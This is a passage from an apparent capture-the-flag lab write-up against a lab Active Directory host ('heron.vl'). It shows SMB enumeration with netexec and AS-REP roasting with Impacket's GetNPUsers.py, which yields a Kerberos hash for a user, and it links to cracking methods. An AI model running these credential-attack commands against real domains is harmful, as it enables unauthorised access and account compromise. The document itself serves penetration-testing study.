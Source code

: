 Reach the site on 10.10.173.53

![alt text](../assets/image_heron/3er.png)

```console
# potential users.txt :
wayne.wood
julian.pratt
samuel.davies
w.wood
j.pratt
s.davies
```

```bash
nxc smb "10.10.173.53" -u 'toto'  -p ''

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
SMB         10.10.173.53    445    MUCDC            [-] heron.vl\toto: STATUS_LOGON_FAILURE
```
There is no Guest Session so we need to find creds

## First user, samuel.davies

Let's try ASREProast : [https://tools.thehacker.recipes/impacket/examples/getnpusers.py](https://tools.thehacker.recipes/impacket/examples/getnpusers.py)

```bash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -usersfile users.txt -dc-ip "10.10.173.53" "heron.vl"/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User wayne.wood doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User julian.pratt doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$samuel.davies@HERON.VL:7f8381c531585de12e3932be634b005b$79840d0766dafb30d2b50ada6fe153870a3941bd80bf74e414113a40374f75ccf6501f26619f41a5c9c46a8e36463b2f014308770e534bb45cea9b32e301275727b83aa743b1545f54890d4784609023b37e99c5b81b50eb07031618bb8d80017a7b1b183dac6e13b877b48150dc9217a324f27f2e22c57d05a6671532d9253492066085b0d9c2df30f9a8a16ada2915b2953e593490d560237615f1a6bcc765a1e39c4a2d4d8ddb484472bbe5647ea864fa395b1127ff75a25868f3a136cd5722ca726f22715208cdfafa39821adea3261c5567b94e5ae65a5f8c38b8abfeb6f2c64393
```
Nice ! Now crack it : [https://www.thehacker.recipes/a-d/movement/credentials/cracking](https://www.thehacker.recipes/a-d/movement/credentials/cracking)
